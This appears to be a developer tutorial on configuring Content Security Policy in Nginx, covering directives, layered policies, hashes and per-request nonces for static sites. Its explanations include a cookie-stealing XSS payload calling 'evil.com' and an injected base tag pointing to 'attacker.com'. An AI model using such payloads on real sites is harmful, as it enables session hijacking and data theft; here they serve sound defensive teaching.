




import Callout from "@components/ui/Callout.astro";
import { Tabs, TabPanel } from "@components/ui/tabs";
import CompareCode from "@components/ui/CompareCode.astro";
import FileContent from "@components/ui/FileContent.astro";
import Table from "@components/ui/Table.astro";
import TerminalCommand from "@components/ui/TerminalCommand.astro";
import TerminalOutput from "@components/ui/TerminalOutput.astro";
import Mermaid from "@components/ui/Mermaid.astro";
import Code from "@components/ui/Code.astro";
import TLDRSummary from "@components/ui/TLDRSummary.astro";
import CheckList from "@components/ui/CheckList.astro";
import StateNotice from "@components/ui/StateNotice.astro";
import BrowserSupport from "@components/ui/BrowserSupport.astro";
import StepByStep from "@components/ui/StepByStep.astro";
import Prerequisite from "@components/ui/Prerequisite.astro";

**Cross-Site Scripting (XSS)** remains one of the most prevalent and dangerous web vulnerabilities, consistently ranking in OWASP's Top 10. According to recent security research, XSS vulnerabilities account for approximately 40% of all reported web application security issues. Attackers exploit these vulnerabilities to inject malicious scripts that can steal cookies, hijack user sessions, redirect visitors to malicious sites, or perform unauthorized actions on behalf of authenticated users.

**Content Security Policy (CSP)** is your best defense against these attacks. Think of it as a whitelist or "guest list" for your website—you explicitly tell the browser which resources (scripts, styles, images, etc.) are allowed to load and execute. Anything not on the list gets blocked, even if an attacker manages to inject malicious code into your page.

In this guide, you'll learn CSP from the ground up. We'll start with a one-line policy, then progressively build toward a strict, A+ rated configuration. By the end, you'll understand not just *how* to implement CSP, but *why* each directive matters and how they work together to protect your users.

<TLDRSummary title="Key Takeaways">
  - **Start simple**: Begin with `default-src 'self'` and add directives progressively
  - **Use nonces over allowlists**: 94% of allowlist CSPs can be bypassed; nonces are much stronger
  - **Static sites can use nonces**: Nginx's `sub_filter` replaces placeholders with real nonces at request time
  - **Go strict with `'strict-dynamic'`**: Trust propagates from nonced scripts to dynamically loaded ones
  - **Migration path**: Always deploy in report-only mode first, then gradually enforce
  - **Essential directives**: `object-src 'none'` and `base-uri 'none'` are required for strict CSP
</TLDRSummary>

---

## Your first CSP in 5 minutes

Let's get a working CSP right now. Open your Nginx configuration and add this single header:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # Your first CSP - allow resources only from your own domain
    add_header Content-Security-Policy "default-src 'self'" always;
    
    # ... rest of your config
}
```
</FileContent>

Test your configuration and reload Nginx:

<TerminalCommand>
```bash
sudo nginx -t && sudo systemctl reload nginx
```
</TerminalCommand>

**That's it!** You now have a working CSP. Open your browser's DevTools (F12 → Console) and look for CSP violations. You might see errors like:

<TerminalOutput title="Browser Console">
Refused to load the script 'https://cdn.example.com/analytics.js' because it 
violates the following Content Security Policy directive: "default-src 'self'".
</TerminalOutput>

<Callout type="keypoint" icon="mdi:lightbulb">
  **What just happened?**
  
  `default-src 'self'` tells the browser: "Only allow resources from the same origin." This blocks:
  - External scripts (CDNs, analytics)
  - Inline scripts (`<script>alert('hi')</script>`)
  - Inline styles
  - External images, fonts, and more
  
  This is intentionally restrictive. We'll relax it strategically in the next sections.
</Callout>

---

## Understanding CSP: the whitelist concept

CSP works by defining **what's allowed**, not what's blocked. Think of it as a guest list for a party—only resources on the list get in.

<Mermaid caption="CSP acts as a gatekeeper for browser resources" maxWidth="600px">

</Mermaid>

### Why CSP matters

Without CSP, if an attacker manages to inject `<script>stealCookies()</script>` into your page (via a comment form, URL parameter, or database), the browser will happily execute it. With CSP, the browser checks if inline scripts are allowed—and if not, blocks the attack.

### How XSS attacks work (and how CSP stops them)

Let's trace a typical XSS attack scenario:

<Mermaid caption="XSS attack flow without CSP protection" maxWidth="700px">

</Mermaid>

**Step-by-step breakdown:**

1. **Injection**: Attacker submits a comment containing `<script>fetch('https://evil.com?cookie='+document.cookie)</script>`
2. **Storage**: The website stores this in the database without proper sanitization
3. **Delivery**: When another user views the page, the malicious script is served as part of the HTML
4. **Execution**: The browser sees a `<script>` tag and executes it—no questions asked
5. **Exfiltration**: The script sends the victim's cookies (including session tokens) to the attacker

**With CSP (`script-src 'self'`)**, step 4 fails. The browser checks: "Is this an inline script? Is that allowed?" Since inline scripts are blocked by default, the attack is neutralized.

<Callout type="keypoint" icon="mdi:shield">
  **CSP is a second line of defense.**
  
  CSP doesn't prevent the injection from happening—you should still sanitize user input. But when input validation fails (and it will eventually), CSP catches the attack at the browser level, preventing execution.
</Callout>

### Attack vectors CSP prevents

CSP isn't just about stopping script injection—it's a comprehensive security layer that addresses multiple attack categories. The table below shows how different CSP directives work together to create defense-in-depth. Notice how each threat type maps to a specific directive, which is why a complete CSP policy includes more than just `script-src`.

<Table title="Common Threats Mitigated by CSP">
  <thead>
    <tr>
      <th>Threat</th>
      <th>How CSP Helps</th>
      <th>Key Directive</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>Reflected XSS</strong></td>
      <td>Blocks inline scripts injected via URL parameters</td>
      <td><code>script-src</code> without <code>'unsafe-inline'</code></td>
    </tr>
    <tr>
      <td><strong>Stored XSS</strong></td>
      <td>Blocks scripts injected via database content</td>
      <td><code>script-src</code> with nonces/hashes</td>
    </tr>
    <tr>
      <td><strong>DOM-based XSS</strong></td>
      <td>Blocks <code>eval()</code> and similar dynamic execution</td>
      <td><code>script-src</code> without <code>'unsafe-eval'</code></td>
    </tr>
    <tr>
      <td><strong>Data exfiltration</strong></td>
      <td>Limits where data can be sent via XHR/fetch</td>
      <td><code>connect-src 'self'</code></td>
    </tr>
    <tr>
      <td><strong>Clickjacking</strong></td>
      <td>Prevents site from being framed by attackers</td>
      <td><code>frame-ancestors 'none'</code></td>
    </tr>
    <tr>
      <td><strong>Mixed content</strong></td>
      <td>Automatically upgrades HTTP requests to HTTPS</td>
      <td><code>upgrade-insecure-requests</code></td>
    </tr>
    <tr>
      <td><strong>Plugin-based attacks</strong></td>
      <td>Blocks Flash, Java, and other plugin vulnerabilities</td>
      <td><code>object-src 'none'</code></td>
    </tr>
  </tbody>
</Table>


---

## CSP directives: learn by doing

Instead of memorizing a table, let's learn each directive by adding it to our policy. We'll start with the most important ones.

### 1. `default-src`: the fallback

This is the catch-all. If you don't specify a directive for a resource type, `default-src` applies.

<Code lang="nginx" aria-label="default-src directive">
```nginx
# Everything must come from our origin
Content-Security-Policy: default-src 'self';
```
</Code>

<Callout type="tip">
  **Best practice:** Set `default-src 'none'` and explicitly allow what you need. This is the "deny by default" approach.
</Callout>

### 2. `script-src`: controlling JavaScript

This is the **most critical** directive. It controls which scripts can execute on your page.

<Code lang="nginx" aria-label="script-src directive">
```nginx
# Allow scripts from our origin only
Content-Security-Policy: default-src 'none'; script-src 'self';
```
</Code>

<Table title="script-src Source Values">
  <thead>
    <tr>
      <th>Value</th>
      <th>Description</th>
      <th>Security</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>'self'</code></td>
      <td>Same origin only (same scheme, host, and port)</td>
      <td>Safe</td>
    </tr>
    <tr>
      <td><code>'none'</code></td>
      <td>Block all scripts entirely</td>
      <td>Maximum</td>
    </tr>
    <tr>
      <td><code>https://cdn.example.com</code></td>
      <td>Allow scripts from specific domain</td>
      <td>Weak (bypassable)</td>
    </tr>
    <tr>
      <td><code>'nonce-abc123'</code></td>
      <td>Allow scripts with matching <code>nonce</code> attribute</td>
      <td>Strong (recommended)</td>
    </tr>
    <tr>
      <td><code>'sha256-...'</code></td>
      <td>Allow scripts matching specific content hash</td>
      <td>Strong</td>
    </tr>
    <tr>
      <td><code>'strict-dynamic'</code></td>
      <td>Trust scripts loaded by already-trusted scripts</td>
      <td>Strong</td>
    </tr>
    <tr>
      <td><code>'unsafe-inline'</code></td>
      <td>Allow inline scripts (event handlers, script tags)</td>
      <td><strong>Dangerous</strong></td>
    </tr>
    <tr>
      <td><code>'unsafe-eval'</code></td>
      <td>Allow <code>eval()</code>, <code>Function()</code>, <code>setTimeout('code')</code></td>
      <td><strong>Dangerous</strong></td>
    </tr>
  </tbody>
</Table>

<Callout type="warning">
  **Never use `'unsafe-inline'` for scripts** in production. It allows attackers to execute injected inline scripts—the exact attack CSP is meant to prevent. The entire point of CSP is lost with this value.
</Callout>

### 3. `style-src`: controlling CSS

<Code lang="nginx" aria-label="style-src directive">
```nginx
# Allow styles from our origin, plus inline styles
Content-Security-Policy: 
    default-src 'none'; 
    script-src 'self'; 
    style-src 'self' 'unsafe-inline';
```
</Code>

<Callout type="info">
  **Why `'unsafe-inline'` for styles?** Unlike scripts, inline styles are much less dangerous. Many CSS-in-JS libraries require it. While you can use nonces/hashes for styles too, the security benefit is smaller.
</Callout>

### 4. `img-src`: images

<Code lang="nginx" aria-label="img-src directive">
```nginx
# Allow images from our origin and data: URIs (for base64 images)
img-src 'self' data:;
```
</Code>

### 5. `font-src`: web fonts

<Code lang="nginx" aria-label="font-src directive">
```nginx
# Allow fonts from our origin
font-src 'self';
```
</Code>

### 6. `connect-src`: XHR, Fetch, WebSocket

This controls where your JavaScript can send data. Critical for preventing data exfiltration.

<Code lang="nginx" aria-label="connect-src directive">
```nginx
# Allow API calls to our origin and GitHub API
connect-src 'self' https://api.github.com;
```
</Code>

### 7. `frame-ancestors`: clickjacking protection

This prevents your site from being embedded in iframes on other sites.

<Code lang="nginx" aria-label="frame-ancestors directive">
```nginx
# Don't allow embedding anywhere
frame-ancestors 'none';
```
</Code>

<Callout type="keypoint">
  `frame-ancestors` replaces the older `X-Frame-Options` header and offers more control.
</Callout>

### 8. Security hardening directives

These directives close attack vectors that are often overlooked:

#### `object-src 'none'` — Block plugins

Plugins like Flash and Java have historically been major security vulnerabilities. Even though Flash is deprecated, blocking `object-src` prevents any plugin-based attacks:

<Code lang="nginx" aria-label="object-src directive">
```nginx
# Block all plugins (Flash, Java, Silverlight, etc.)
object-src 'none';
```
</Code>

<Callout type="keypoint">
  **Required for strict CSP.** Without `object-src 'none'`, attackers could potentially use plugins to bypass your script restrictions.
</Callout>

#### `base-uri 'none'` — Prevent base tag injection

The `<base>` tag defines a base URL for all relative URLs in a document. If an attacker injects a `<base>` tag, they can redirect all your relative URLs to their server:

<Code lang="html" aria-label="base tag attack example">
```html
<!-- Attacker injects this before your content -->
<base href="https://attacker.com/">

<!-- Your existing code now loads from attacker's server! -->
<script src="/js/app.js"></script>  <!-- Loads https://attacker.com/js/app.js -->
```
</Code>

<Code lang="nginx" aria-label="base-uri directive">
```nginx
# Block base tag injection attacks
base-uri 'none';
```
</Code>

#### `form-action 'self'` — Control form submissions

Prevents attackers from injecting forms that submit data to external servers:

<Code lang="nginx" aria-label="form-action directive">
```nginx
# Forms can only submit to our own domain
form-action 'self';
```
</Code>

#### `upgrade-insecure-requests` — Force HTTPS

Automatically upgrades HTTP requests to HTTPS. Essential for sites served over HTTPS:

<Code lang="nginx" aria-label="upgrade-insecure-requests directive">
```nginx
# Convert http://example.com/image.jpg to https://
upgrade-insecure-requests;
```
</Code>

### CSP Directives Reference

Now that you understand the most important directives through hands-on examples, here's a complete reference for when you need to look up specific functionality. These tables are organized by category and link directly to MDN documentation for deeper reading.

Remember: you don't need to memorize all of these. Most sites only need a handful of directives. The key is understanding which category each resource falls into, then consulting this reference when you encounter new requirements.

#### Fetch directives

Fetch directives are the workhorses of CSP—they control where specific types of resources can be loaded from. When a resource doesn't have its own directive defined, it falls back to `default-src`. This is why setting `default-src 'none'` and then explicitly allowing what you need is the safest approach.

<Table title="Fetch Directives Reference">
  <thead>
    <tr>
      <th>Directive</th>
      <th>Controls</th>
      <th>Recommended Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src" target="_blank" rel="noopener noreferrer"><code>default-src</code></a></td>
      <td>Fallback for all unspecified fetch directives</td>
      <td><code>'none'</code> (be explicit)</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src" target="_blank" rel="noopener noreferrer"><code>script-src</code></a></td>
      <td>JavaScript sources and inline scripts</td>
      <td><code>'nonce-...' 'strict-dynamic'</code></td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src" target="_blank" rel="noopener noreferrer"><code>style-src</code></a></td>
      <td>CSS stylesheets and inline styles</td>
      <td><code>'self'</code> + hashes if needed</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/img-src" target="_blank" rel="noopener noreferrer"><code>img-src</code></a></td>
      <td>Image sources</td>
      <td><code>'self' data:</code></td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/font-src" target="_blank" rel="noopener noreferrer"><code>font-src</code></a></td>
      <td>Web font sources</td>
      <td><code>'self'</code> or CDN domain</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src" target="_blank" rel="noopener noreferrer"><code>connect-src</code></a></td>
      <td>XHR, Fetch, WebSocket, EventSource</td>
      <td><code>'self'</code> + API domains</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src" target="_blank" rel="noopener noreferrer"><code>media-src</code></a></td>
      <td>Audio/video sources</td>
      <td><code>'self'</code> or <code>'none'</code></td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/object-src" target="_blank" rel="noopener noreferrer"><code>object-src</code></a></td>
      <td>Plugins (Flash, Java, etc.)</td>
      <td><code>'none'</code> (critical!)</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-src" target="_blank" rel="noopener noreferrer"><code>frame-src</code></a></td>
      <td>Sources for iframes</td>
      <td><code>'none'</code> or trusted sources</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/worker-src" target="_blank" rel="noopener noreferrer"><code>worker-src</code></a></td>
      <td>Worker, SharedWorker, ServiceWorker</td>
      <td><code>'self'</code></td>
    </tr>
  </tbody>
</Table>

#### Document and navigation directives

While fetch directives control *what* can load, document and navigation directives control *how* your page behaves and *where* it can go. These are often overlooked but are critical for comprehensive protection. A common mistake is focusing only on script-src while leaving these directives undefined, which can create security gaps.

<Table title="Document & Navigation Directives Reference">
  <thead>
    <tr>
      <th>Directive</th>
      <th>Purpose</th>
      <th>Recommended Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/base-uri" target="_blank" rel="noopener noreferrer"><code>base-uri</code></a></td>
      <td>Restricts URLs in <code>&lt;base&gt;</code> element</td>
      <td><code>'none'</code> (prevents injection)</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/form-action" target="_blank" rel="noopener noreferrer"><code>form-action</code></a></td>
      <td>URLs that can be form submission targets</td>
      <td><code>'self'</code> (anti-phishing)</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors" target="_blank" rel="noopener noreferrer"><code>frame-ancestors</code></a></td>
      <td>Who can embed this page</td>
      <td><code>'none'</code> (anti-clickjacking)</td>
    </tr>
    <tr>
      <td><a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/upgrade-insecure-requests" target="_blank" rel="noopener noreferrer"><code>upgrade-insecure-requests</code></a></td>
      <td>Auto-upgrade HTTP to HTTPS</td>
      <td>(Present on HTTPS sites)</td>
    </tr>
  </tbody>
</Table>

---

## Building your CSP layer by layer

Rather than trying to write a perfect CSP in one go (which often leads to frustration and broken functionality), let's build one progressively. This layered approach lets you understand what each addition accomplishes and makes troubleshooting much easier.

Think of it like building a house: you start with the foundation, add the walls, then the roof. Each layer adds more protection, and you can stop at any level based on your site's requirements and your comfort level with the complexity.

<Table title="CSP Security Levels">
  <thead>
    <tr>
      <th>Level</th>
      <th>Policy Addition</th>
      <th>What It Protects</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>0</strong></td>
      <td>No CSP</td>
      <td>Nothing—wide open to XSS</td>
    </tr>
    <tr>
      <td><strong>1</strong></td>
      <td><code>default-src 'none'</code></td>
      <td>Blocks everything by default</td>
    </tr>
    <tr>
      <td><strong>2</strong></td>
      <td><code>+ script-src 'self'; style-src 'self' 'unsafe-inline'</code></td>
      <td>Only your scripts run</td>
    </tr>
    <tr>
      <td><strong>3</strong></td>
      <td><code>+ img-src 'self' data:; font-src 'self'</code></td>
      <td>Controls media loading</td>
    </tr>
    <tr>
      <td><strong>4</strong></td>
      <td><code>+ connect-src 'self'; object-src 'none'</code></td>
      <td>Limits data exfiltration, blocks plugins</td>
    </tr>
    <tr>
      <td><strong>5</strong></td>
      <td><code>+ base-uri 'none'; frame-ancestors 'none'</code></td>
      <td>Prevents injection and clickjacking</td>
    </tr>
    <tr>
      <td><strong>6</strong></td>
      <td><code>+ form-action 'self'; upgrade-insecure-requests</code></td>
      <td>Full protection, forces HTTPS</td>
    </tr>
  </tbody>
</Table>

### Level 6: A solid baseline CSP

Here's what Level 6 looks like in practice:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    upgrade-insecure-requests;
" always;
```
</FileContent>

<Callout type="success">
  **Checkpoint:** This CSP protects against most common attacks. It blocks external scripts, limits where data can be sent, prevents clickjacking, and closes plugin-based attack vectors.
  
  However, there's one significant limitation—**inline scripts are blocked**. If your site uses any inline JavaScript (which most modern sites do for things like theme detection, analytics initialization, or hydration), it won't work. The next section addresses this challenge with three different solutions.
</Callout>

---

## The inline script challenge

Most websites have inline scripts like this:

<Code lang="html" aria-label="Inline script example">
```html
<script>
  // Theme detection, analytics, etc.
  document.documentElement.classList.add('dark');
</script>
```
</Code>

With `script-src 'self'`, this is blocked. You have three solutions:

### Solution 1: Move scripts to external files

The cleanest approach—move inline code to `.js` files:

<CompareCode badTitle="Inline (blocked by CSP)" goodTitle="External (allowed)">
  <div slot="bad">
    ```html
    <script>
      initTheme();
    </script>
    ```
  </div>
  <div slot="good">
    ```html
    <script src="/js/theme.js"></script>
    ```
  </div>
</CompareCode>

### Solution 2: Use hashes

Generate a SHA-256 hash of your script content and add it to your CSP:

<Code lang="nginx" aria-label="CSP with hash">
```nginx
script-src 'self' 'sha256-RFWPLDbv2BY+rCkDzsE+0fr8ylGr2R2faWMhq4lfEQc=';
```
</Code>

<Callout type="tip">
  **How to get the hash:** When CSP blocks a script, the browser console shows the required hash:
  
  > The hash of the script is `'sha256-RFWPLDbv2BY+rCkDzsE+0fr8ylGr2R2faWMhq4lfEQc='`
</Callout>

**Pros:** Works for completely static content  
**Cons:** Must regenerate hash whenever script content changes

### Solution 3: Use nonces

Add a random token to both the CSP header and your script tags:

<Tabs>
  <TabPanel label="CSP Header">
    ```nginx
    script-src 'self' 'nonce-abc123def456';
    ```
  </TabPanel>
  <TabPanel label="HTML Script Tag">
    ```html
    <script nonce="abc123def456">
      initTheme();
    </script>
    ```
  </TabPanel>
</Tabs>

**Pros:** More flexible than hashes  
**Cons:** Nonce must be unique per request (challenging for static sites)

---

## Nonces for static sites: the Nginx trick

Here's the challenge that stops many developers: Static Site Generators (SSGs) like Astro, Next.js, Hugo, or Eleventy build HTML at **build time**. The files are generated once and then served statically. But nonces must be unique for every **request**—that's their entire security value. If a nonce is static and predictable, it's no better than having no nonce at all.

So how do we square this circle? How can a static HTML file contain a nonce that's different for every visitor?

### The solution: placeholder substitution

The answer lies in your web server. Instead of generating nonces at build time, we:

1. At build time, embed a **placeholder string** where the nonce should go
2. At request time, configure the web server (Nginx in our case) to replace that placeholder with a real cryptographically random nonce
3. The same nonce gets injected into both the HTML `<script>` tags AND the CSP header

This means every request gets a unique nonce, even though the source HTML file is static. The browser never sees the placeholder—it only sees the final nonce value.

<Mermaid caption="Nginx nonce injection for static sites" maxWidth="600px">

</Mermaid>

### Step 1: Use the placeholder in your source

In your templates, use a known placeholder for the nonce:

<FileContent filename="src/layouts/BaseLayout.astro" icon="simple-icons:astro">
```astro
---
// Layout component
---
<html>
  <head>
    <!-- Use placeholder that Nginx will replace -->
    <script is:inline nonce="CSP_NONCE_NGINX">
      // Critical inline script (theme detection, etc.)
      const theme = localStorage.getItem('theme') || 'system';
      document.documentElement.dataset.theme = theme;
    </script>
  </head>
  <body>
    <slot />
  </body>
</html>
```
</FileContent>

### Step 2: Configure Nginx

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # ========================================
    # STEP 1: Generate a unique nonce per request
    # ========================================
    # $request_id is a 32-char hex string (128 bits of entropy)
    set $cspNonce $request_id;

    # ========================================
    # STEP 2: Replace placeholder with real nonce
    # ========================================
    sub_filter_once off;  # Replace ALL occurrences
    sub_filter_types text/html text/css application/javascript;
    sub_filter CSP_NONCE_NGINX $cspNonce;

    # ========================================
    # STEP 3: Set CSP header with the same nonce
    # ========================================
    add_header Content-Security-Policy "
        default-src 'none';
        script-src 'self' 'nonce-$cspNonce';
        style-src 'self' 'unsafe-inline';
        img-src 'self' data:;
        font-src 'self';
        connect-src 'self';
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
        form-action 'self';
        upgrade-insecure-requests;
    " always;
    
    # ... rest of config
}
```
</FileContent>

<Callout type="info" icon="mdi:information">
  **Why `$request_id` is safe for nonces:**
  
  Nginx's `$request_id` provides:
  - **128 bits** of entropy (32 hex characters)
  - **Unique per request** — freshly generated each time
  - **Unpredictable** — derived from system randomness
  
  This exceeds CSP's recommended minimum entropy.
</Callout>

### What the browser sees

<Tabs>
  <TabPanel label="1. Stored on Disk">
    ```html
    <!-- /var/www/example.com/index.html -->
    <script nonce="CSP_NONCE_NGINX">
      const theme = localStorage.getItem('theme');
    </script>
    ```
  </TabPanel>
  <TabPanel label="2. HTTP Response Header">
    ```http
    HTTP/2 200 OK
    Content-Security-Policy: script-src 'nonce-a1b2c3d4e5f6...' ...
    ```
  </TabPanel>
  <TabPanel label="3. HTML Received by Browser">
    ```html
    <!-- What the browser actually receives -->
    <script nonce="a1b2c3d4e5f6...">
      const theme = localStorage.getItem('theme');
    </script>
    ```
  </TabPanel>
</Tabs>

---

## Going strict with `'strict-dynamic'`

The `'strict-dynamic'` directive is powerful: it allows scripts loaded by trusted scripts to also execute.

<Code lang="nginx" aria-label="strict-dynamic directive">
```nginx
script-src 'nonce-$cspNonce' 'strict-dynamic';
```
</Code>

### How it works

When a script with a valid nonce dynamically loads another script, the loaded script **inherits trust**:

<Mermaid caption="Trust propagation with strict-dynamic" maxWidth="700px">

</Mermaid>

